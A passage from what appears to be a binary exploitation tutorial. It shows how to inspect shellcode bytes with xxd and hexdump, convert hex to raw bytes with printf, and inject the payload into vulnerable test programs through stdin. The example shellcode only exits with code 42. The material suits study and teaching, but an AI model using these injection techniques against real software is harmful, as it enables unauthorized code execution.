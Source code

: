 We can also use a tool like `xxd` or `hexdump` to inspect the byte values in the file, without disassembling:

```
$ xxd exit_shellcode.bin
00000000: 48c7 c0ff ffff ffbf 2a00 0000 b83c 0000  H.......*....<..
00000010: 000f 05                                  ...
```

## 03. Tutorial: feeding machine code to a program

Now that we know how to obtain a bytestring of machine code from an assembly program, it's time to move on to the next step: injection. The simplest way is to redirect the `stdin` of the target program to the file containing our raw machine code.

```
$ ./vuln < exit_shellcode.bin
```

However, we might want to freely edit the payload directly on the command line (for example, if the program reads some other stuff). The way to do this is to use another tool, like the shell itself, to transform hexadecimal notation into binary data:

```
$ printf '\x4b\x80\x04\x08'
K�
```

Again, we can use a tool like `xxd` for the reverse operation, to verify that the binary data comes out as intended:

```
$ printf '\x4b\x80\x04\x08' | xxd -p
4b800408
```

If our machine code is contained in a file, we can use `hexdump` to obtain an escaped hexadecimal representation of its contents:

```
$ hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin
\x48\xc7\xc0\xff\xff\xff\xff\xbf\x2a\x00\x00\x00\xb8\x3c\x00\x00\x00\x0f\x05
```

Which we can then combine with some other input

```
$ printf '1\x48\xc7\xc0\xff\xff\xff\xff\xbf\x2a\x00\x00\x00\xb8\x3c\x00\x00\x00\x0f\x05' | ./vuln2
```

Or we can do this directly:

```
$ printf '1'$(hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin) | ./vuln2
```

We can then verify that the program did indeed exit with code 42:

```
$ echo $?
42
```
